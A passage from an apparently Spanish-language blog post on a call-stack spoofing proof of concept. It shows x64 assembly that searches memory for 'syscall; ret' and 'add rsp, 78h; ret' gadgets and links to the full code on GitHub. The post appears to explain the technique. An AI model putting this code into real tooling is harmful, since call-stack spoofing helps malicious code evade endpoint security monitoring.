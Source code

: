 ```c++
    xor rcx, rcx
    mov rcx, 00FFFFFF0000000000h
    mov rdi, [rdx]
    and rdi, rcx
    or rbx, rdi
    shr rbx, 28h
    cmp rbx, 1F0FC3h
    jne Search_For_Syscall_Ret + 3h
    mov r15, syscall_ret
    mov [r15], rdx
    xor r15, r15
    ret

Search_For_Add_Rsp_Ret:
    ; Search for add rsp, 78 + Ret
    mov rdx, rax
    add rdx, 1
    xor rbx, rbx
    xor rcx, rcx
    mov rcx, 0000FFFFFFFFFFh
    mov rdi, [rdx]
    and rdi, rcx
    or rbx, rdi
    mov r14, 00C378C48348h
    cmp rbx, r14
    jne Search_For_Add_Rsp_Ret + 3h
    mov r15, add_rsp_ret
    mov [r15], rdx
    ret
```
> El código completo puedes encontrarlo en [mi GitHub](https://github.com/pard0p/CallstackSpoofingPOC)
{: .prompt-info }